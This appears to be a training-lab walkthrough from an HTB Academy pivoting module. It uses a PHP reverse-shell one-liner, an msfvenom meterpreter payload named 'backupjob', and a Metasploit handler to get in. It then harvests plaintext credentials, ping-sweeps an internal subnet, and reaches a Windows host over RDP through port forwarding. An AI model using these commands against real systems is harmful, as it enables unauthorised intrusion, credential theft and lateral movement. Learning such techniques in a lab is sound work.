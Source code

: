 Linux
IP - 10.129.194.105
Existing webshell at http://10.129.194.105:80/, get a reverse shell

```bash
p0wny@shell:…/www/html# php -r '$sock=fsockopen("10.10.16.56",1234);exec("bash <&3 >&3 2>&3");'

--------------------------

┌──(kali㉿kali)-[~/Documents/Academy/Pivoting-Tunneling-and-Port-forwarding]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.16.56] from (UNKNOWN) [10.129.194.105] 55564
whoami
www-data
```

Upgrade TTY. Lets create a meterpreter session

```bash
┌──(kali㉿kali)-[~/Documents/Academy/Pivoting-Tunneling-and-Port-forwarding/lab]
└─$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.16.56 LPORT=8080 -f elf -o backupjob
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob
```

Move the file to the server and execute, catching the meterpreter with metasploit

```bash
┌──(kali㉿kali)-[~/Documents/Academy/Pivoting-Tunneling-and-Port-forwarding/lab]
└─$ sudo msfconsole -q                                                                            
[sudo] password for kali: 
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8080 
[*] Sending stage (3045348 bytes) to 10.129.194.105
[*] Meterpreter session 1 opened (10.10.16.56:8080 -> 10.129.194.105:44336) at 2023-08-23 11:06:00 +0200

meterpreter > getuid
Server username: www-data
```

In `/home/webadmin` folder we find `for-admin-eyes-only` file with credentials mlefay:'Plain Human work!' :

```plain/text
# note to self,
in order to reach server01 or other servers in the subnet from here you have to us the user account:mlefay
with a password of : 
Plain Human work!
```

And a `id_rsa` file. With ping sweep we found the IP 172.16.5.35

```bash
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.028 ms
64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=0.528 ms
```

In 172.16.5.35 we have a Windows (we know for the ttl) so we will connect through port 3389 (RDP), so lets set up port forwarding

```bash
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.35
[*] Forward TCP relay created: (local) :3300 -> (remote) 172.16.5.35:3389

------------

┌──(kali㉿kali)-[~]
└─$ xfreerdp /v:localhost:3300 /u:mlefay /p:'Plain Human work!'
```

And now we have access to the windows machine
